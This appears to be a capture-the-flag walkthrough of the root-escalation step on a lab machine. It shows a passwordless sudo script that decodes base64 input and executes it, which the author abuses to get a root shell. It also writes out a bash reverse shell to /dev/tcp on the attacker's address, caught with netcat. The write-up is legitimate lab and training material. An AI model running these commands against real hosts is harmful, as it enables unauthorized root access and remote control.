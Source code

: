 ## Escalation

```
$ sudo -l
sudo -l
Matching Defaults entries for nobody on fluxcapacitor:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nobody may run the following commands on fluxcapacitor:
    (ALL) ALL
    (root) NOPASSWD: /home/themiddle/.monit
nobody@fluxcapacitor:/home$ vi /home/themiddle/.monit
```
```
$ cat /home/themiddle/.monit
cat /home/themiddle/.monit
#!/bin/bash

if [ "$1" == "cmd" ]; then
	echo "Trying to execute ${2}"
	CMD=$(echo -n ${2} | base64 -d)
	bash -c "$CMD"
fi
```

Get bash as root
```
$ echo "/bin/bash" | base64
L2Jpbi9iYXNoCg==

$ sudo /home/themiddle/.monit cmd L2Jpbi9iYXNoCg==
Trying to execute L2Jpbi9iYXNoCg==

id
uid=0(root) gid=0(root) groups=0(root)
```


Get remote nc as root
```
$ echo "bash -i >& /dev/tcp/10.10.14.32/4445 0>&1" >/tmp/b
$ echo "/tmp/b" | base64
L3RtcC9iCg==
$ sudo /home/themiddle/.monit cmd L3RtcC9iCg==

# nc -lvp 4445
listening on [any] 4445 ...
connect to [10.10.14.32] from fluxcapacitor.htb [10.10.10.69] 43500
bash: cannot set terminal process group (596): Inappropriate ioctl for device
bash: no job control in this shell
root@fluxcapacitor:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@fluxcapacitor:/# cat /root/root.txt
cat /root/root.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXxxx

```

